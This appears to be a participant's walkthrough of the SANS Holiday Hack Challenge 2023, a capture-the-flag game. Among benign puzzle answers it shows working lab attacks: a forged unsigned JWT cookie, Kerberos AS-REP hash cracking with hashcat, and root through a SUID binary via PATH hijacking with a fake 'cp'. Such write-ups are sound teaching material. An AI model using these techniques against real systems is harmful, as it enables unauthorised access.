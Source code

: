 # SANS Holiday Hack Challenge 2023

---

## Objective: Holiday Hack Orientation

To start you need to maneuver your boat and dock at Christmas Island: Oritentation

![Picture of boat at sea heading towards Orientation Island](/docs/assets/images/Dock.png)

### Task 1: First Terminal Challenge

This is just to get your feet wet, simply enter

```
answer
```

to complete the challenge.

![](/docs/assets/images/Orientation.png)

---

## Objective: Snowball Fight

You could play with another player to fight Santa and win, but that defeats the whole purpose of hacking...

If you look at the source code of the iframe, you will find a singlePlayer variable. You will see that if it is set to "true", a computer player is added to the game allowing you to play solo. 

![](/docs/assets/images/SinglePlayer.png)

Once you load into a private room, you can view the frame info to find the URL the frame is loading from. You will see the singleplayer variable set to false. If you copy the URL and update the <iframe> tag in Inspect with that URL and setting that variable to "true" it will load a single player game. 

Once you defeat Santa, you achieve GLORY!

![](/docs/assets/images/VICTORY.png)

However... why stop there?! You can also use the console once the game is started to alter other variables such as snowballDmg, playersVelocity, santaThrowDelay and more. There's many ways to make this challenge more fun. Pelting elves with no damage taken, who doesn't enjoy that?!

![](/docs/assets/images/Variables.png)

---

## Objective: Linux 101

Task 1: Perform a directory listing of your home directory to find a troll and retrieve a present!

Answer:

```
ls
```

Task 2: Now find the troll inside the troll.

Answer: 

```
cat troll 19315479765589239
```

Task 3: Great, now remove the troll in your home directory.

Answer: 

```
rm troll 19315479765589239
```

Task 4: Print the present working directory using a command.

Answer: 

```
pwd
```

Task 5: Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!

Answer: 

```
ls -la
cat .troll_5074624024543078
```

Task 6: Excellent, now find the troll in your command history.

Answer: 

```
history
```

Task 7: Find the troll in your environment variables.

Answer: 

```
env
```

Task 8: Next, head into the workshop.

Answer: 

```
cd workshop
```

Task 9: A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.

Answer: 

```
grep -ri "troll"
```

Task 10: 

Answer: 

```
chmod +x present engine
./present engine
```

Task 11: Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.

Answer: 

```
cd /home/elf/workshop electrical
mv blown_fuse0 fuse0
```

Task 12:  Now, make a symbolic link (symlink) named fuse1 that points to fuse0

Answer:

```
ln -s fuse0 fuse1
```

Task 13: Make a copy of fuse1 named fuse2.

Answer: 

```
cp fuse1 fuse2
```

Task 14: We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2

Answer: 

```
echo "TROLL_REPELLENT" > fuse2
```

Task 15: Find the troll somewhere in /opt/troll_den.

Answer: 

```
find /opt/troll_den/ -iname "troll*"
```

Task 16: Find the file somewhere in /opt/troll_den that is owned by the user troll.

Answer: 

```
find /opt/troll_den/ -user "troll"
```

Task 17: Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.

Answer: 

```
find /opt/troll_den/ -size +108k -size -110k
```

Task 18: List running processes to find another troll

Answer: 

```
ps aux
```

Task 19: The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.

Answer:

```
netstat -l
```

Task 20: The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.

Answer: 

```
curl 0.0.0.0:54321
```

Task 21: Your final task is to stop the 14516_troll process to collect the remaining presents.

Answer:

```
ps aux
kill 12771
```

---

## Objective: Reportinator

---

## Objective: Azure 101

Task 1: You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less

Answer: 

```
az help | less
```

Task 2: Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )

Answer: 

```
az account show | less
```

![](/docs/assets/images/azshow.png)

Task 3: Excellent! Now get a list of resource groups in Azure.
For more information:
https://learn.microsoft.com/en-us/cli/azure/group?view=azure-cli-latest

Answer: 

```
az group list
```

![](/docs/assets/images/azgroup.png)

Task 4: Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.

Answer: 

```
az functionapp list -g "northpole-rg1"
```

You could've also used northpole-rg2 here. This also revealed an interesting URL: https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

![](/docs/assets/images/azfunctionapp.png)

Task 5: Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest

Answer: 

```
az vm list -g "northpole-rg2"
```

![](/docs/assets/images/azvms.png)

Task 6: Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke

Answer: 

```
az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts "ls"
```

![](/docs/assets/images/azls.png)

---

## Objective: Elf Hunt

After reading about JSON Web Tokens (JWTs), I learned about a flaw to force the server to accept a token with no signature present. I found a cookie that appeared to be the JWT for Elf Hunt called "ElfHunt_JWT". The JWT was already flawed since the "alg" parameter was set to none, which made my job easier. I simply had to decode the cookie using CyberChef. It took a few tries messing around with the speed until the elves were just fast enough...

Original Cookie: 

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwMH0.
```

Decoded Original: 

```
{"alg":"none","typ":"JWT"}>{"speed":-500}>
```

Answer: I ended up finding that -50 was a good speed. I replaced the cookie in my session with my new base64 encoded speed variable. The full cookie value became 

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwfT4.
```

GLORY:

![](/docs/assets/images/elfhunt.png)

---

## Objective: Certificate SSHenanigans

Domain: **ssh-server-vm.santaworkshopgeeseislands.org** 

Account: **monitor**

Goal: **access TODO list**

---

## Objective: Faster Lock Combination

When applying tension to the shackle and turning the dial clockwise, the number that the lock repeatedly hangs on is the sticky number. 

Sticky Number: 20

When applying heavy tension to the shackle and turning the lock counter clockwise, the numbers we are looking for will sit between two half numbers and will be between 0-11

Guess Number 1: 0

Guess Number 2: 3

First Digit: Sticky Number + 5 = ***25***

Third Digit: 13  OR 33, 13 feels more loose when applying tension to the shackle so we can eliminate 33 as an option

Third Digit Process: 

First Digit/4 = 6 with remainder of 1

Guess Numbers: 0 & 3

0    10    20   30

3    13    23    33

13/4 = 4 with remainder of 1 & 33/4 = 8 with remainder of 1

Second Digit Process:

First Row Below: Remainder + 2  = 3

Add 8 to it 4 times, exceeding 39 resets to 0

Second Row Below: remainder + 2 + 4 = 7

Add 8 to it 4 times, exceeding 39 resets to 0

3    ~~11~~    19    27    35

7    ~~15~~     23    31    39

The second and third digit on the lock cannot be within 2 digits of eachother, we can eliminate 15 & 17 from our second digit guesses. 

After trying the 8 options, our true combination is: 25, 39, 13!

If you want to "hack" the challenge instead, you can look at the javascript variables in the iframe to reveal the combination for your session. The variable that holds the combination is: lock_numbers

![](/docs/assets/images/lock.png)

You can also edit the lock combination that the game is looking for if you'd like. This just makes it faster to solve the combo :D

![](/docs/assets/images/editlock.png)

---

## Objective: Phish Detection Agency

Valid SPF: 

| Domain           | Type | Value                               |
| ---------------- | ---- | ----------------------------------- |
| geeseislands.com | TXT  | v=spf1 a:mail.geeseislands.com -all |

Valid DKIM:

| Domain           | Type | Value                                                                                                                                                                                                                                  |
| ---------------- | ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DKIM1;t=s;p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDjtqsLqwecFGF7AmP+Siln86O1v9NOKJw4ZsEHDV5fo0Vjj0qNPyyARKSkDmnIKjnzLGUUQO31Fr+vdZU61IaI9/ZD39WJKaAeX96uQ65mRQqqPVYxPLN5OvuFRmIHJ/TgOkD6z5/7VM7Zs1kw5Qnl04FmOLwWd00D+uNZnj8TCwIDAQAB |

Valid DMARC:

| Domain           | Type | Value                                                                  |
| ---------------- | ---- | ---------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DMARC1; p=reject; pct=100; rua=mailto:dmarc-reports@geeseislands.com |

In this challenge we had to weed through all the emails in the Inbox along with those that were already in the Phishing folder to determine if ChatNPT properly assessed the emails. The key piecees to look at in the email headers displayed was:

Return-Path - if the return path was not for emailaddress@geeseislands.com the email should be marked as malicious, as all mail is expected to be from that domain in this challenge

DMARC - if this value is set to "Fail", you can assume phishing in this challenge

DKIM-Signature - if the domain value (d=) in the signature is not geeseislands.com, you can assume it is a phishing email OR if this is just showing "Invalid"

Recieved - If the received field is from a different domain than the expected sender of geeseislands.com, you can assume it is a phishing email

Phish email example 1:

![](/docs/assets/images/phish1.png)

Phish email example 2:

![](/docs/assets/images/phish2.png)

Valid email example 1:

![](/docs/assets/images/valid1.png)

GLORY:

![](/docs/assets/images/acedetect.png)

---

## Objective: Na'an

If you cover both the numerical low (0) and high (9) and use NaN as one of the options, the other numbers you place do not matter. The evaluation will fail in your favor. As long as you cover the extremes, NaN will be seen as winner for both min and max due to the python evaluation error. 

GLORY:

![](/docs/assets/images/nan.png)

---

## Operation: Kusto Detective

Onboarding: How many craftperson elves are using laptops?

![](/docs/assets/images/kd1.png)

Answer: *25*

Case 1: Welcome to Operation Giftwrap: Defending the Geese Island network

Question 1: What is the email address of the employee who received this phishing email?

![](/docs/assets/images/kd2.png)

Answer: 

```
alabaster_snowball@santaworkshopgeeseislands.org
```

Question 2: What is the email address that was used to send this spear phishing email?

![](/docs/assets/images/kd3.png)

Answer: 

```
 cwombley@gmail.com
```

Question 3: What was the subject line used in the spear phishing email?

![](/docs/assets/images/kd4.png)

Answer: 

```
[EXTERNAL] Invoice foir reindeer food past due
```

Case 2: Someone got phished! Let's dig deeper on the victim...

Question 1: What is the role of our victim in the organization?

![](/docs/assets/images/kd5.png)

Answer: 

```
Head Elf
```

Question 2: What is the hostname of the victim's machine?

![](/docs/assets/images/kd6.png)

Answer: 

```
Y1US-DESKTOP
```

Question 3: What is the source IP linked to the victim?

![](/docs/assets/images/kd7.png)

Answer: 

```
10.10.0.4
```

Case 3: That's not good. What happened next?

Question 1: What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

![](/docs/assets/images/kd8.png)

Answer: 

```
2023-12-02T10:12:42Z
```

Question 2: What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

![](/docs/assets/images/kd9.png)

Answer: 

```
giftwrap.exe
```

Case 4: A compromised host! Time for a deep dive.

Question 1: The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

![](/docs/assets/images/kd10.png)

Answer: 

```
113.37.9.17
```

Question 2: What is the timestamp when the attackers enumerated network shares on the machine?

![](/docs/assets/images/kd11.png)

Answer: 

```
2023-12-02 16:51:44.0000000
```

Question 3: What was the hostname of the system the attacker moved laterally to?

![](/docs/assets/images/kd12.png)

Answer: 

```
NorthPolefileshare
```

Case 5: A hidden message

Question 1: When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

![](/docs/assets/images/kd13.png)

Answer: 

```
2023-12-24 16:07:47.0000000
```

Question 2: What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

We can check out the first encoded powershell command after the attacker accessed the fileshare.

![](/docs/assets/images/kd14.png)

After base64 decoding, we can see that this is also reversed. We can use the reverse() command to assist here and reveal the answer.

![](/docs/assets/images/kd15.png)

Answer: 

```
NaughtyNiceList.txt
```

Question 3: The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

We can review the next powershell command after the file was copied. 

![](/docs/assets/images/kd16.png)

After base64 decoding, we can see that this command is also encoded in decimal. We need to convert this to ASCII for it to be easily legible.

![](/docs/assets/images/kd17.png)

I used: [charcode encoder-decoder](https://codepen.io/HerbertAnchovy/pen/XLzdYr) to decode the char decimal into ASCII, which revealed our answer.

![](/docs/assets/images/kd18.png)

Answer: 

```
giftbox.com
```

Case 6: The final step!

Question 1: What is the name of the executable the attackers used in the final malicious command?

![](/docs/assets/images/kd20.png)

Answer: 

```
downwithsanta.exe
```

Question 2: What was the command line flag used alongside this executable?

We can use the same decoded powershell to find the answer for this question.

![](/docs/assets/images/kd20.png)

Answer: 

```
--wipeall
```

HHC23 Badge Answer

After completing all the cases, you are presented with one final encoded command: 

```javascript
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```

![](/docs/assets/images/kd21.png)

We can put 

```javascript
Beware the Cube that Wombles
```

into our badge on HHC23 to achieve GLORY!

---

## Objective: Game Cartridges: Vol 1

For this game, the goal is to move pixels of the QR code back to their correct place. There are 7 pixels out of place. As you send music notes through misplaced pixels they'll flash, make music, and a flashing square will appear where it shoud go. You simply push your character against the block to move it, you cannot pull a block or push.

Known controls:

- arrows keys to move around

- (e) = a on the gameboy

- (r) = b on the gameboy, for this game it shoots out the music notes

If you look in the js/script.js file, you can find some additional controls that are unlisted.

```javascript
  bindKeys() {
    this.keyFuncs = {
      Backspace: this.keyRewind.bind(this),
      " ": this.keyPause.bind(this),
      "[": this.keyPrevPalette.bind(this),
      "]": this.keyNextPalette.bind(this),
    };
```

In the order shown, these allow you to:

- Rewind the game, if you push a block to the wrong place simply hold Backspace and it will rewind time!

- "Space", if you push spacebar it will pause the game

- Return to the previous color palette for the game

- Proceed to the next color palette for the game

Once all pixels are in their correct location (Be careful with the last one! You need to travel some distance to get it to its proper home!) the game will reveal the full QR code. 

![](/docs/assets/images/gcv1.png)

This QR code is linked to 

```javascript
8bitelf.com
```

Visiting the website reveals the flag to plug into your badge. To achieve glory enter the below into your bade

```javascript
santaconfusedgivingplanetsqrcode
```

---

## Objective: Hashcat

Instructions:

```
In a realm of bytes and digital cheer,  
The festive season brings a challenge near.  
Santa's code has twists that may enthrall,  
It's up to you to decode them all.

Hidden deep in the snow is a kerberos token,  
Its type and form, in whispers, spoken.  
From reindeers' leaps to the elfish toast,  
Might the secret be in an ASREP roast?

`hashcat`, your reindeer, so spry and true,  
Will leap through hashes, bringing answers to you.  
But heed this advice to temper your pace,  
`-w 1 -u 1 --kernel-accel 1 --kernel-loops 1`, just in case.

For within this quest, speed isn't the key,  
Patience and thought will set the answers free.  
So include these flags, let your command be slow,  
And watch as the right solutions begin to show.

For hints on the hash, when you feel quite adrift,  
This festive link, your spirits, will lift:  
https://hashcat.net/wiki/doku.php?id=example_hashes

And when in doubt of `hashcat`'s might,  
The CLI docs will guide you right:  
https://hashcat.net/wiki/doku.php?id=hashcat

Once you've cracked it, with joy and glee so raw,  
Run /bin/runtoanswer, without a flaw.  
Submit the password for Alabaster Snowball,  
Only then can you claim the prize, the best of all.

So light up your terminal, with commands so grand,  
Crack the code, with `hashcat` in hand!  
Merry Cracking to each, by the pixelated moon's light,  
May your hashes be merry, and your codes so right!

* Determine the hash type in hash.txt and perform a wordlist cracking attempt to find which password is correct and submit it to /bin/runtoanswer .*
```

Hash.txt contents:

```bash
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966
```

Grep through the hashcat manual to find the proper hashmode for the hash at hand

```bash
elf@d2bdc40ea53d:~$ hashcat --help | grep -i "kerberos"
   7500 | Kerberos 5 AS-REQ Pre-Auth etype 23              | Network Protocols
  13100 | Kerberos 5 TGS-REP etype 23                      | Network Protocols
  18200 | Kerberos 5 AS-REP etype 23                       | Network Protocols
```

We can use our handy poem to determine we need mode to handle *ASREP* or we can leverage the output of the hash.txt file to see we need a mode that can handle Kerberos 5 ASREP, aka 18200.

Hashcat command:

```bash
hashcat -m 18200 hash.txt password_list.txt -w 1 -u 1 --kernel-accel 1 --kernel-loops 1 -o password.txt --force
```

Hashcat output:

```bash
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU @ 2.80GHz, 8192/30063 MB allocatable, 8MCU

Hashes: 1 digests; 1 unique digests, 1 uniue salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=16 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=4 -D KERN_TYPE=18200 -D _unroll'
* Device #1: Kernel m18200_a0-pure.d7bc3268.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: password_list.txt
* Passwords.: 144
* Bytes.....: 2776
* Keyspace..: 144
* Runtime...: 0 secs

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.  


Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2...dd1966
Time.Started.....: Sat Dec  9 00:59:53 2023 (0 secs)
Time.Estimated...: Sat Dec  9 00:59:53 2023 (0 secs)
Guess.Base.......: File (password_list.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      817 H/s (0.75ms) @ Accel:1 Loops:1 Thr:64 Vec:16
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 144/144 (100.00%)
Rejected.........: 0/144 (0.00%)
Restore.Point....: 0/144 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-0
Candidates.#1....: 1LuvCandyC4n3s!2022 -> iLuvC4ndyC4n3s!23!

Started: Sat Dec  9 00:59:34 2023
Stopped: Sat Dec  9 00:59:54 2023
```

Checking the contents of password.txt where we had hashcat set to output our cracked password...

```bash
elf@f1f72d836708:~$ cat password.txt 
$krb5asrep$23$alabaster_snowball@XMAS.LOCAL:22865a2bceeaa73227ea4021879eda02$8f07417379e610e2dcb0621462fec3675bb5a850aba31837d541e50c622dc5faee60e48e019256e466d29b4d8c43cbf5bf7264b12c21737499cfcb73d95a903005a6ab6d9689ddd2772b908fc0d0aef43bb34db66af1dddb55b64937d3c7d7e93a91a7f303fef96e17d7f5479bae25c0183e74822ac652e92a56d0251bb5d975c2f2b63f4458526824f2c3dc1f1fcbacb2f6e52022ba6e6b401660b43b5070409cac0cc6223a2bf1b4b415574d7132f2607e12075f7cd2f8674c33e40d8ed55628f1c3eb08dbb8845b0f3bae708784c805b9a3f4b78ddf6830ad0e9eafb07980d7f2e270d8dd1966:IluvC4ndyC4nes!
```

Running /bin/runtoanswer and inputting our cracked password

```bash
elf@f1f72d836708:~$ /bin/runtoanswer 
What is the password for the hash in /home/elf/hash.txt ?

> IluvC4ndyC4nes!
Your answer: IluvC4ndyC4nes!

Checking....
Your answer is correct!
```

---

## Objective: Linux PrivEsc

Instructions:

```bash
In a digital winter wonderland we play,
Where elves and bytes in harmony lay.
This festive terminal is clear and bright,
Escalate privileges, and bring forth the light.

Start in the land of bash, where you reside,
But to win this game, to root you must glide.
Climb the ladder, permissions to seize,
Unravel the mystery, with elegance and ease.

There lies a gift, in the root's domain,
An executable file to run, the prize you'll obtain.
The game is won, the challenge complete,
Merry Christmas to all, and to all, a root feat!

* Find a method to escalate privileges inside this terminal and then run the binary in /root *
```

Find command for files with the SUID bit set

```bash
find / -perm -u=s -type f 2>/dev/null 
```

Results: 

```bash
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/simplecopy
```

Why do I care about the SUID bit? 

A program that has the SUID (set user ID) bit set will run in the context of the user that owns that file. This can be very dangerous if set for any binaries that can alter or overwrite files. In addition, if it is set for a binary that calls out to another binary using a non-explicit path, we can create a malicious file where it is trying to reach out to elevate our permissions. 

Strings on the /bin/simplecopy to see if we can identify any files/binaries it may be calling out to

```bash
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
elf@6043897b7dfe:~$ strings /bin/simplecopy | less
bash: less: command not found
elf@6043897b7dfe:~$ strings /bin/simplecopy 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
exit
__stack_chk_fail
system
__cxa_finalize
setgid
__libc_start_main
snprintf
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Usage: %s <source> <destination>
cp %s %s
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
simplecopy.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
snprintf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
setgid@@GLIBC_2.2.5
exit@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.property
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.plt.sec
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```

Within our strings results, it looks like simplecopy is calling out to "cp" to leverage it's file copy function. As stated earlier, calling out a binary without an explicit path can be dangerous...let's see what we can do.

Let's check out where the OS thinks cp lives

```bash
elf@6043897b7dfe:~$ which cp
/usr/bin/cp
```

The OS believes that it should look in /usr/bin when it is asked to run "cp". Well, that's because of the environmental variable PATH. The OS looks at the PATH variable to determine where it should look for "cp" in our case. We can look at all PATH variables and see that /usr/bin is present.

```bash
elf@6043897b7dfe:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Let's see if we can create a malicious executable called "cp" and change the PATH variable for the OS to find our new "cp" when running simplecopy

```bash
elf@6043897b7dfe:/tmp$ echo "/bin/bash" > cp 
elf@6043897b7dfe:/tmp$ chmod +x cp 
elf@6043897b7dfe:/tmp$ cat cp
/bin/bash
```

We created a new file called "cp" in /tmp that will launch a bash session and made it executable. If we can get simplecopy to run this, it will run with the root UID and give us root permissions. 

Let's alter our environmental variable PATH. We can set it so it will look through the /tmp directory before /usr/bin, so it will see our new "cp" file first!

```bash
elf@6043897b7dfe:/tmp$ which cp
/usr/bin/cp
elf@6043897b7dfe:/tmp$ export PATH=/tmp:$PATH
elf@6043897b7dfe:/tmp$ which cp
/tmp/cp
```

Now, let's execute simplecopy and copy any file. It doesn't matter what, we just need the binary to execute.

```bash
elf@6043897b7dfe:/tmp$ /bin/simplecopy /home/elf/HELP /tmp 
root@6043897b7dfe:/tmp# 
```

And boom! We are root! 

```bash
root@6043897b7dfe:/tmp# whoami
root
```

Now let's move into the /root directory as the original instructions told us and run the binary in there. It looks like it wants to know who delivers christmas presents.

```bash
root@6043897b7dfe:/root# cd /tmp
root@6043897b7dfe:/tmp# cd /root
root@6043897b7dfe:/root# ls
runmetoanswer
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> 
```

Let's see if there is a file somewhere that is holding the answer key for us. We can use grep to recursively search the system for our prompt.

```bash
root@6043897b7dfe:/root# grep -inr "Who delivers christmas presents" / 2>/dev/null
/etc/runtoanswer.yaml:12:  Who delivers Christmas presents?
```

Bingo! /etc/runtoanswer.yaml seems to have our question in it, let's check it out further.

```bash
root@6043897b7dfe:/root# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: b08b538569e395f88e12ef9fe751ac39

# The answer that the user is expected to enter - case sensitive
# (This is optional - if you don't have an answer, then running this will immediately win)
answer: "santa"

text: |
  Who delivers Christmas presents?

success_message: "Your answer is *correct*!"
failure_message: "Sorry, that answer is *incorrect*. Please try again!"

# A prompt that is displayed if the user runs this interactively (they might
# not see this - answers can be entered as an argument)
prompt: "> "

# Optional: a time, in seconds, to delay before validating the answer (to
# prevent guessing)
delay: 1

# Optional: skip (most) stdout output if the answer is correct
headless: false

# If set to true, don't exit after the user asks
keep_going: false

# Optional: play this sound on completion or failure
#completion_sound: 'myhappysound.mp3'
#failure_sound: 'mysadsound.mp3'

# Close the terminal when it is completed?
exit_on_completion: false
```

It appears our answer is "santa". Let's give it a try. 

```bash
root@6043897b7dfe:/root# ./runmetoanswer 
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```

GLORY!

---

## Objective: Luggage Lock

Not much skill or technique here... just apply the right amount of pressure until all wheels lock into a position, then apply full pressure to the lock and watch the zipper pop open!

![](/docs/assets/images/ll.png)

---

## Objective: Game Cartidges: Vol 2

The hint for this one is very useful.

```bash
Gameboy 2
From: Tinsel Upatree
Objective: Game Cartridges: Vol 2

1) This feels the same, but different! 2) If it feels like you are going crazy, you probably are! Or maybe, just maybe, you've not yet figured out where the hidden ROM is hiding. 3) I think I may need to get a DIFFerent perspective. 4) I wonder if someone can give me a few pointers to swap.
```

For this objective I used:

- BeyondCompare to view the hex data of the game files

- mGBA as my GameBoy emulator

- Ghidra to view the functions (not needed)

When we try to play the game in the browser, we can see that are being blocked to continue through the path by T-Wiz. We need to find a way to edit the game to allow us access to the other side. 

To find the location that the iframe is pulling the game frame, view your network traffic when you load the game. After you do this a few times, you'll find there appears to be two different versions that can load. 

game0.gb

![](/docs/assets/images/gcv21.png)

game1.gb

![](/docs/assets/images/gcv22.png)

